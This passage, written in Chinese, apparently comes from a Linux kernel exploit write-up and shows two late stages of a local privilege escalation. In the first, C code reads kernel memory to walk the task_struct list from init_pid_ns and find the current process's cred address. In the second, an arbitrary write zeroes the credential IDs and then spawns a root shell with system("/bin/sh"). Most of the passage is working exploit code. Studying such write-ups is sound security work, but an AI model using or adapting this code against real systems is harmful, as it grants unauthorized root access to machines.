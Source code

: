 

##### 泄漏task_strcut cred

`init_pid_ns `命名空间的保存着系统所有的进程的`task`结构，先泄漏`init_pid_ns`地址（根据之前的内核基地址+偏移计算），再根据任意地址读获取`task`地址，遍历列表得到指定进程的`task`结构地址

```c
	// Step 4: Leak task_struct 
#define INIT_PID_NS 0x111
	size_t init_pid_ns = linux_base + INIT_PID_NS;
	printf("init_pid_ns: 0x%llx\n", init_pid_ns);
	// get current pid
	pid_t pid = getpid();
	size_t cred_addr = 0;
	size_t task_addr = read64(init_pid_ns + 0x30);	// task_struct* 

	// search curret process's task_struct->cred

	while(1){
		pid_t p = read64(task_addr + 0x908);	// get task_struct's pid
		printf("iter pid: %d...\n", p);

		if(pid == p){
			printf("got target cred!\n");
			cred_addr = read64(task_addr + 0xac8);
			break;
		}
		else{
			// task_struct = task_struct->next
			task_addr = read64(task_addr + 0x808) - 0x808;

		}
	}
```

#### LPE

在成功泄漏进程`cred`地址后，只需要利用构造的任意地址写，完成修改`cred`即可提权

```c
	// Step 7: overwrite cred...
	clear_btf();
	update_elem(0, 0);
	update_elem(1, 3);	//	option = 3 prepare for attr write
	update_elem(2, values_addr + 0x80);		// *(&ops) = value_addr + 0x80(fake_ops)
	write_msg();
	write32(cred_addr+4, 0);
	write32(cred_addr+8, 0);
	write32(cred_addr+12, 0);
	write32(cred_addr+16, 0);
	if(getuid() == 0){
		puts("Spawn shell;");
		system("/bin/sh");
	}
	return 0;
```
